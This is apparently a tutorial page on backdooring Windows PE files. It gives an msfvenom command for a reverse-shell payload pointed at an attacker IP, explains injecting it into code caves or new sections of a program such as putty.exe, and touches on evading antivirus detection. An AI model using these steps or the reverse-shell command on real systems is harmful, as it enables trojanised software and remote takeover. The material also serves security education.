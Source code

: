 ```yaml
---
layout: default
---
```


# Backdooring PEs

Backdooring a PE (Portable Executable) file involves adding malicious code to the file in order to gain unauthorized access to a system or steal sensitive information. This is a common technique used by attackers to compromise systems and is a serious security threat.

To backdoor a PE file, an attacker can use a variety of techniques such as code injection, DLL hijacking, or modifying the import table. One common technique is to use a tool like Metasploit to generate a payload that can be injected into the PE file.

Here are the general steps to backdoor a PE file using Metasploit:

1. Generate a payload using Metasploit. This can be done using the `msfvenom` command in the terminal. For example, to generate a reverse shell payload, you can use the following command:

   ```
   msfvenom -p windows/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f exe -o payload.exe
   ```

   This will generate a payload in the form of an executable file called `payload.exe`.

2. Identify the target PE file that you want to backdoor. This can be any executable file that runs on the target system.

3. Use a tool like `PE Explorer` to open the target PE file and locate the section where you want to inject the payload. This can be the `.text` section or any other section that contains executable code.

4. Use a hex editor to modify the target PE file and inject the payload into the desired section. This can be done by copying the payload code and pasting it into the target file at the appropriate location.

5. Save the modified PE file and distribute it to the target system.

Once the backdoored PE file is executed on the target system, the payload will be executed and the attacker will gain unauthorized access to the system. It is important to note that backdooring a PE file is illegal and can result in serious legal consequences. It is important to always use ethical hacking techniques and obtain proper authorization before attempting any type of security testing.

In this section, we shall walk over these steps in detail:

## Methods of implanting new code
The purpose of implanting new code is either to add additional functionalities to the program, or modify the exist code. For an attacker, the Code Caves are especially interesting as malicious code may be injected to these sections and modify the behavior of the program.

There are typcially three ways to implant new code to a PE file.

- Code Cave
	- The downside of using this method is that the size is most limited and if there are complex and longer shellcodes then it may not fit into the identified code cave location. 
- New Section
	- We can always create a new section and is stil one of the most powerful method as it gives the user flexibility to add shellcode of any length. The downsizde however, as this section is set as `executable`, the AV engines may flag this as malicious.
- Extending Section
	- We can extend the existing section ( typically the last one ) and increase its size enough to hold the shellcode.

We can also chain these method together: for example, find a code cave in a text section, which will hold a small piece of code, that will load additional code from an other section or resources. The new section need not be executable thereby lowering the risk of being flagged as malicious.

In this section for demonstration purposes, lets use code cave for backdooring:

### Code Cave
The first step is to find the appropriate location to store our payload, these spaces in the PE are called as "Code Caves". These are unallocated spaces within the program's code that can be used to inject additional code. These spaces are typically created during the compilation process when the compuler aligns code sections to specific code boundaries. 

We can use the [Cminer](https://github.com/EgeBalci/Cminer) for this purpose. To demonstrated the discovery of the code caves we shall use [putty.exe](https://www.putty.org/).

![Cminer1](/docs/resources/malware/Cminer1.png)

And the size of each of these caves as demonstrated below:

```                                                            
[+] 6 Caves found.                                                                          
                         
[#] Cave 1                                                                                  
[*] Section: .data                                                            
[*] Cave Size: 3090 byte.                                                     
[*] Start Address: 0x47b3fc                                            
[*] End Address: 0x47c00e                                            
[*] File Ofset: 0x7b3fc                                                                     
                                                                                            
[#] Cave 2                                                                                  
[*] Section: .data                                                      
[*] Cave Size: 559 byte.                                             
[*] Start Address: 0x47a9e1                                            
[*] End Address: 0x47ac10                                              
[*] File Ofset: 0x7a9e1                                                                     
                                                                                            
[...]                                                                   
```                       

We can use any of these sections to store our malicious code, the seciton `.data` hold initialized data and/or global variables, also this section is usually READABLE and WRITEABLE. The `.text` section is where the code resides and is READABLE and EXECUTABLE.

We can look into these section with a tool called [PE Bear](https://github.com/hasherezade/pe-bear). The tool helps us understand the various sections and their characteristics.


![PE Tools](/docs/resources/malware/PETool1.gif)

There are functionalities too add sections to the binary or extend any section. Simply click on the section and modify the size, as shown below:

![PE Tool - Section](/docs/resources/malware/modify-section.png)

We can also there sections using the [x64dbg.exe](https://x64dbg.com/) tool.

![x64DGB](/docs/resources/malware/x64dgb1.gif)






